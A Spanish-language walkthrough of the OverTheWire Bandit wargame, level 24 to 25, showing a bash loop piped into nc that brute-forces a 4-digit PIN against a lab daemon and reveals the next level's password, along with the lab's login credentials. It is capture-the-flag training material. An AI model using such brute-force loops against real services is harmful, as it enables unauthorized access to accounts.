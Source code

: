 # Bandit
# Level 24 a 25
## Objetivo
Un demonio está escuchando en el puerto 30002 y le dará la contraseña de bandit25 si se le proporciona la contraseña de bandit25 si se le proporciona la contraseña de bandit24 y un código PIN numérico secreto de 4 dígitos. No hay forma de recuperar el código PIN, excepto pasando por todas las 10000 combinaciones, lo que se conoce como fuerza bruta.

## Datos de acceso
Username: bandit24
Contraseña: VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Puerto: 2220
Host:  bandit.labs.overthewire.org

## Solución
 ```shell
ssh bandit24@bandit.labs.overthewire.org -p 2220
bandit24@bandit:~$ nc localhost 30002
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar
Fail! You did not supply enough data. Try again.
bandit24@bandit:~$ echo {0000..0005}
0000 0001 0002 0003 0004 0005
bandit24@bandit:~$ for i in {0000..0005}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0000
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0001
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0002
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0003
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0004
VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar 0005
bandit24@bandit:~$ for i in {0000..9999}; do echo VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar $i; done | nc localhost 30002 | grep -v Wrong!
I am the pincode checker for user bandit25. Please enter the password for user bandit24 and the secret pincode on a single line, separated by a space.
Correct!
The password of user bandit25 is p7TaowMYrmu23Ol8hiZh9UvD0O9hpx8d

Exiting.
bandit24@bandit:~$

```
 
## Notas adicionales
Se crea un for que entra a las combinaciones del 0000 al 999, a cada uno le introduce la contraseña del nivel 24, también los conecta con `localhost` 30002, y con ayuda del comando `grep` podemos encontrar  coincidencias, es decir, encontrar una palabra o combinación de palabras dentro de un fichero.
 
## Referencias
- [Uso de grep](https://keepcoding.io/blog/que-es-el-comando-grep-y-como-usarlo-en-linux/)
